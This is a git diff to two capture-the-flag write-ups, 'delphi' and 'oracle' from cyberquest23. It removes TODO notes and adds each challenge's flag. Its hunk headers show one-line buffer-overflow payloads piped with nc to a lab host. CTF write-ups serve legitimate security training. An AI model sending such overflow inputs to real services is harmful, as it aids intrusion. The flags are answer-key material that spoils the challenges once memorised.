

cq23 delphi oracle live

diff --git a/cyberquest23/delphi/WRITEUP.md b/cyberquest23/delphi/WRITEUP.md
@@ -120,11 +120,9 @@ python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
 
 ![](screenshots/8.png)
 
-TODO: replace screenshot from live environment
-
 # Flag
 
-TODO: add flag from live env
+cq23{l3t_mE_t3ll_UR_FUtuRe:ur_g0nna_be_4_gr3at_h4ck3r}
 
 # Pwndbg
 

diff --git a/cyberquest23/oracle/WRITEUP.md b/cyberquest23/oracle/WRITEUP.md
@@ -125,8 +125,6 @@ python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00
 
 ![](screenshots/8.png)
 
-TODO: replace screenshot from live environment
-
 # Flag
 
-TODO: add flag from live env
+cq23{sUch_@_typ1c4l_r341_w0rld_siTUaT10n_righT?}
